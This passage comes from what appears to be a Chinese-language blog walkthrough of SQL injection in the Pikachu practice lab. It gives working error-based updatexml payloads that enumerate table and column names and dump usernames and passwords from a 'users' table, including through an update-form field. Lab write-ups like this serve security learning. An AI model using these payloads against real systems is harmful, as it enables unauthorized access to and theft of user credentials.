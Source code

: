 ```
1' or updatexml(1,concat(0x7e,(select group_concat(column_name )  from information_schema.columns where table_schema= database() and table_name='users'),0x7e),2)or '
```



![45](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144423.png)

查询指定表下的所有数据

```
1' or updatexml(1,concat(0x7e,(select group_concat(id,username,password,level) from users),0x7e),1) or '
或用limit读取
' or updatexml(1,concat(0x7e,(select password from users limit 1,1)),1)or'
```



![46](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144425.png)



#### update注入

注： 只有性别，手机，住址，邮箱全都有值的时候，才会执行修改用户信息的操作，否则该操作不执行



修改页面，在**性别**框内输入单引号，其他几项必填项，随意输入几个数字，提交。页面返回报错信息如图

![47](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144427.png)



 由报错信息可以知道，输入的数据直接拼接入该sql查询语句中，存在着SQL注入漏洞。





查询指定字段的内容

```
' or updatexml(1,concat(0x7e,(select group_concat(username) from users)),1)or'
```

![48](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144429.png)



查询指定数据库表名

```
' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),2) or '
```

![49](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144431.png)




